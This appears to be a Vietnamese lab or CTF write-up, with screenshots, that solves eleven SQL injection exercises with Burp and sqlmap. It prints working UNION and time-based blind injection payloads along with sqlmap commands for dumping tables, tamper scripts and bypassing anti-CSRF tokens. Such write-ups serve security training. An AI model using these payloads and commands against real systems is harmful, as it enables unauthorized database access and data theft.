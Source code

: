 <h1>Running SQLMap on an HTTP Request</h1>

![image](https://github.com/user-attachments/assets/f7e4c7f3-c852-47df-afe8-caccbe23cbe6)

![image](https://github.com/user-attachments/assets/581a802c-657d-48ff-8332-b769a30ccd68)

Giao diện web khi tôi truy cập vào:

![image](https://github.com/user-attachments/assets/cb955abc-53d3-4025-8739-cc46f61a99cb)

Bắt đầu với case2:

![image](https://github.com/user-attachments/assets/fc062b3f-0301-4010-952f-5f3bb8072ed3)

Sau khi submit id=1 thì ra cái này:

![image](https://github.com/user-attachments/assets/6029ae27-e0ae-4d36-a79e-92e63ab32a09)

Tôi dùng burp bắt request lại và đưa vào file req.txt:

![image](https://github.com/user-attachments/assets/ae7e65e6-41f7-469c-9fb9-aab0779138b2)

Rồi tôi chạy `sqlmap -r req.txt`:

![image](https://github.com/user-attachments/assets/826c2b9c-64a5-41b1-8f43-4a5d9fb20182)

![image](https://github.com/user-attachments/assets/3b183864-9dac-4c31-87d5-13e6ea3ba2f9)

Và kết quả nhận lại 3 loại sqli, tôi tin chọn dùng UNION query cho nhanh, đầu tiên là thử payload `1 UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, 9 -- -` để check thử:

![image](https://github.com/user-attachments/assets/8a9c8389-b0d0-4696-81ba-fa7d49d658b8)

Thấy chạy ổn ổn thì tôi sẽ xem thử trong bảng flag2 có những cột nào bằng payload `1 UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5,6,7,8,9 from INFORMATION_SCHEMA.COLUMNS where table_name='flag2'-- -`:

![image](https://github.com/user-attachments/assets/acf11b04-e543-4808-855e-39e5363e8455)

Nhìn vào tôi thấy được bảng flag2 thuộc testdb và gồm có 2 cột là id và content, dùng `1 UNION select 1, id, content, 4,5,6,7,8,9 from flag2-- -` để lấy content và id và flag2:

![image](https://github.com/user-attachments/assets/6757d16b-2421-44aa-8bec-805539cbbebf)

Đối với case3 thì cái id lại nằm trong cookie nên sqlmap không nhận ra được:

![image](https://github.com/user-attachments/assets/6c154c94-0ab1-4e66-a51d-332ad23c911d)

![image](https://github.com/user-attachments/assets/1a0f69dd-f446-4f97-8f02-4b371a1b010e)

Và sqlmap cũng bảo thêm cái --crawl vào nên tôi chạy lệnh `sqlmap -r req.txt --crawl=2 --batch` và kết quả đây:

![image](https://github.com/user-attachments/assets/e2dbdba7-48a0-4de8-8596-720663d37f13)

Lại như trước thôi:

![image](https://github.com/user-attachments/assets/4e470eec-07b9-4553-82c1-32d749ad30ef)

![image](https://github.com/user-attachments/assets/b6ae55c7-47ff-49f3-9d94-0b70f9371421)

case4 thì có id nằm trong json, dù thế thì vẫn như cũ thôi:

![image](https://github.com/user-attachments/assets/04b09f8e-4b57-4350-81e1-d6299cbb4e62)

![image](https://github.com/user-attachments/assets/4299aa7b-9871-4671-9796-0aa6436b29e5)

![image](https://github.com/user-attachments/assets/8908b8dc-ab87-4208-8612-e49629c71936)

<h1>Attack Tuning</h1>

![image](https://github.com/user-attachments/assets/6ff11b59-8e34-4209-9ca2-1bd14fcc0412)

TIếp tục với các case tiếp theo, case số 5:

![image](https://github.com/user-attachments/assets/3ccfda26-0af9-466f-90e3-ce86c69813c9)

![image](https://github.com/user-attachments/assets/8efe7a43-d862-45d6-a721-e41a805f27fb)

Method là GET, lúc đầu sqlmap chạy không ra, tôi thêm --level và --risk cho chắc cú `sqlmap -r req.txt --batch --level=5 --risk=3` và đây là kết quả, 1 boolean và 1 blind:

![image](https://github.com/user-attachments/assets/fe03fe49-79c9-46b0-852d-e1ff796e67d5)

Tôi quyết định dùng payload này `id=1 OR (SELECT 1 FROM (SELECT CASE WHEN (SUBSTRING((SELECT content FROM flag5 LIMIT 1), 1, 1)='a') THEN SLEEP(10) ELSE 0 END)aFuZ)` và dùng python để chạy payload:

![image](https://github.com/user-attachments/assets/6010df7c-6de7-4773-80a6-1c48378fdcb6)

![image](https://github.com/user-attachments/assets/2f9f1896-8868-4bd9-94a2-a2fef8f0ee82)

Cay

![image](https://github.com/user-attachments/assets/88e4777d-fc2c-42a6-b062-b8848b7466f8)

Dùng `sqlmap -r req.txt --batch --dump -T flag6 -D testdb --no-cast --level=5 --risk=3 --prefix='``)'` thêm cái --dump để ra luôn kết quả:

![image](https://github.com/user-attachments/assets/1dd466eb-2600-4591-a7e2-a2ff51a589b4)

![image](https://github.com/user-attachments/assets/737f3a14-1e42-4029-b931-2dcdb7cfc85d)

Nếu chạy không có --dump thì ra các loại sqli:

![image](https://github.com/user-attachments/assets/f230fb5d-6178-4c1c-8126-cb1363c690a5)

Tiếp theo là case7:

![image](https://github.com/user-attachments/assets/c727ed49-ae41-4577-85f4-47f8afc999c0)

![image](https://github.com/user-attachments/assets/bba9e7d1-a381-4c97-ad3f-a1b62375bdd1)

Lâu điênnn, à có thể dùng lệnh `sqlmap -r req.txt --batch --dump -T flag7 -D testdb --no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL` cho chạy nhanh hơn!
<br>
Quay lại case1, do bố cục bài nó thế chứ không phải tôi thích thế:

![image](https://github.com/user-attachments/assets/5a27e41d-eeb7-449b-9052-3a10200416bc)

![image](https://github.com/user-attachments/assets/c820975c-1ed1-4a5c-a056-6ceb412028b3)

![image](https://github.com/user-attachments/assets/6faa0865-d491-47b0-97e1-45917b8f6f11)

![image](https://github.com/user-attachments/assets/bf9aae8c-8fa0-4206-9ff3-02d6e9e36e55)

Tiếp theo là case8, lần này có cả anti-CSRF token

![image](https://github.com/user-attachments/assets/746226b5-1011-4b5d-8c9b-46dad5a275b6)

Tôi chạy thử `sqlmap -r req.txt --batch --dump-all --data="id=1&csrf-token=d7uDKpYEqSSMbPv5guqQMr1H3yZsd0DhlkX1e8I0PIg" --csrf-token="t0ken"` và ngon:

![image](https://github.com/user-attachments/assets/27dfea84-a8a9-4ea6-b07f-2c765768533e)

Tôi chỉnh lại thành `sqlmap -r req.txt --batch --dump-all --data="id=1&csrf-token=d7uDKpYEqSSMbPv5guqQMr1H3yZsd0DhlkX1e8I0PIg" --csrf-token="t0ken" -D testdb -T flag8 --dbms
=MySQL --no-cast` để tăng tốc độ:

![image](https://github.com/user-attachments/assets/aa50156a-7407-4cab-84e4-294959352584)

Case9 có quả uid đặc biệt:

![image](https://github.com/user-attachments/assets/5b8881a4-c93d-4ffe-bb8e-101cefa5267c)

Tôi dùng `sqlmap -r req.txt --batch -level=5 --risk=3 --no-cast --batch --dump-all --randomize=uid -D testdb -T flag9 --dbms=MySQL` và ra:

![image](https://github.com/user-attachments/assets/4bf07934-69c8-4961-a290-61414f0af22c)

Case10 thì tôi cũng không biết nữa, tự nhiên nó ra bằng `sqlmap -r req.txt --batch -level=5 --risk=3 --no-cast --batch --dump-all -D testdb -T flag10 --dbms=MySQL` :

![image](https://github.com/user-attachments/assets/92fdf841-d045-4631-bd93-fe7c8c8ceb2f)

Case11 tôi sử dụng `sqlmap -r req.txt --batch -level=5 --risk=3 --no-cast --batch --dump-all --randomize=uid -D testdb -T flag11 --dbms=MySQL`:



Đợi lâu quá, tôi đi đọc forum thì thấy thêm tamper là `sqlmap -r req.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10`, thế là ra luôn:

![image](https://github.com/user-attachments/assets/f046decb-bc2d-433d-b861-3a4d4bdc58b9)

Nếu không biết dùng tamper nào thì có thể dùng `sqlmap -r req.txt -T flag11 --dump --risk=3 --level=5 --batch --list-tampers --threads=10`, vẫn ra flag như thường

